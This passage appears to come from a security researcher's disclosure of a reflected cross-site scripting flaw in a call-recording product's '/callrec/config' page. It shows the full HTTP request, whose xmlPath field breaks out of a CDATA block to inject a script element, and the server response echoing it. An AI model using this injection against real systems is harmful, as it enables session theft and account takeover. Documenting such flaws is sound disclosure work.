 ![](Zoom-XSS(7).png)

### XSS(8) - Reflected XSS in “/callrec/config” page via XML Script Element
Request:
```
POST /callrec/config HTTP/1.1
Host: xxx.xxxxx.net
Content-type: application/x-www-form-urlencoded
Content-Length: 137
Cookie: JSESSIONID=4D***TRUNCATED***39

action=removeEntry&xmlPath=/Eserver/aaa/]]><script+xmlns="http://www.w3.org/1999/xhtml"><![CDATA[+alert('xmlPath');+]]></script><![CDATA[
```

Response:
```
HTTP/1.1 200 OK
Date: Mon, 28 Oct 2019 09:23:41 GMT
Server: Apache
Content-Type: text/xml;charset=utf-8
Content-Length: 1702
Vary: Accept-Encoding

<?xml version="1.0"?>
<root>
<action>forward</action>
<resultType>error</resultType>
<message><![CDATA[<h1 style="font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:22px">AJAX Config Servlet Error</h1><HR size="1" noshade="noshade"><p><b>Message: </b><u>Removing object operation failed.</u></p><p><b>Exception: </b><pre>java.lang.IllegalAccessException: XmlPath is invalid (/Eserver/aaa/]]><script xmlns="http://www.w3.org/1999/xhtml"><![CDATA[ alert('xmlPath'); ]]></script><![CDATA[). Error is at "aaa" element. Cause: Equal group not found. Specification is not number and equal group with this name does not exist.

***TRUNCATED***
```